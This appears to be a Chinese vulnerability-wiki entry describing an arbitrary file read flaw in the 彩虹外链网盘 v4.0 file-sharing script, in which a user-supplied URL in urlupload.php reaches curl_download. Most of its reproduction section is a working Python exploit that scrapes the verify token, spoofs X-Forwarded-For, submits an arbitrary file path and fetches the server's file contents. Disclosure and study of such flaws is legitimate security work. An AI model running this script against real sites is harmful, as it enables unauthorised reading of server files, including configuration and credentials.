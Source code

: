 彩虹外链网盘 v4.0 任意文件读取漏洞（一）
========================================

一、漏洞简介
------------

如果开启了开启open\_basedir函数，则无法利用此漏洞

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

回到一开始觉得可能存在文件读取的地方
在urlupload.php中接收到url传到curl\_download函数

![5.png](/Users/aresx/Documents/VulWiki/.resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId24.png){width="5.833333333333333in"
height="1.9474212598425198in"}

在main.func.php中看到curl\_download函数其实就是调用curl\_init讲道理是可以文件读取的

![6.png](/Users/aresx/Documents/VulWiki/.resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId25.png){width="5.833333333333333in"
height="2.7040496500437445in"}

文件上传后保存,需要下载查看内容,而且有verify验证,于是编写python脚本

    import requests
    import re
    import sys

    url = sys.argv[1]
    file = sys.argv[2]

    headers={"X-Forwarded-For":"127.0.0.1"}
    requests = requests.session()

    html = requests.get(url+"/urlupload.php").text
    verify = re.findall("name=\"verify\" value=\"(.*?)\"",html)[0]

    data={"url":file,"name":"1231421312.torrent","pwd":"Aa1345123","verify":verify}
    html = requests.post(url+"urlupload.php?a=1",data=data,headers=headers).text

    try:
        down_url = re.findall("<a href=\"(down.php.*?)\"",html)[0]
        result = requests.get(url+down_url).text
    except:
        result = "error"
    print(result)

![7.png](/Users/aresx/Documents/VulWiki/.resource/彩虹外链网盘v4.0任意文件读取漏洞(一)/media/rId26.png){width="5.833333333333333in"
height="0.877580927384077in"}
